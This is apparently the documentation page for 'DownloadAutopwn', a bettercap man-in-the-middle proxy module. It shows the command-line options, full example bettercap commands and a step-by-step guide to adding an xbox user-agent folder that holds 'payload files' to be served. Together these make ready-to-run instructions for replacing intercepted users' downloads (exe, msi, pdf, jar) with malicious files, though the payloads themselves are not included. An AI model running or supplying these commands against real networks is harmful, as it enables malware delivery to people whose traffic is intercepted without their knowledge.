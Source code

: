 # DownloadAutopwn documentation

<br>

## Options

`--download-autopwn-extensions EXT1,EXT2`

`--download-autopwn-useragents AGENT1,AGENT2`

`--download-autopwn-path bettercap-proxy-modules/http/download_autopwn`

`--download-autopwn-port 8042`

**Example:**

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents windows,xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn --download-autopwn-port 8043
```

<br><br>


## Adding User-Agents

The `--download-autopwn-useragents` option scans for names of folders in the path that you specified with `--download-autopwn-path`.

Let's say we want to add an option for xbox User-Agents.

First, we make a new folder called **xbox** in our `--download-autopwn-path` directory.


**1.** `mkdir bettercap-proxy-modules/http/download_autopwn/xbox`

Next, we save our User-Agent string(s) in a file called **user-agents.bettercap**.<br>These strings indicate requests coming from xbox users.

After a quick Google search we find this User-Agent string:

**Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; Xbox; Xbox One)**

Looks like this part of the string will do the trick: `Xbox`

**2.** `echo "Xbox" > bettercap-proxy-modules/http/download_autopwn/xbox/user-agents.bettercap`

**3.** Move your payload files to the folder that you just made.

![screenshot from 2017-08-02 14-45-37](https://user-images.githubusercontent.com/29265684/28858081-62799b8c-7791-11e7-9e61-3136a3d1f7ef.png)

**4. Done.**

Test out your new User-Agent config using the following command:

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn
```
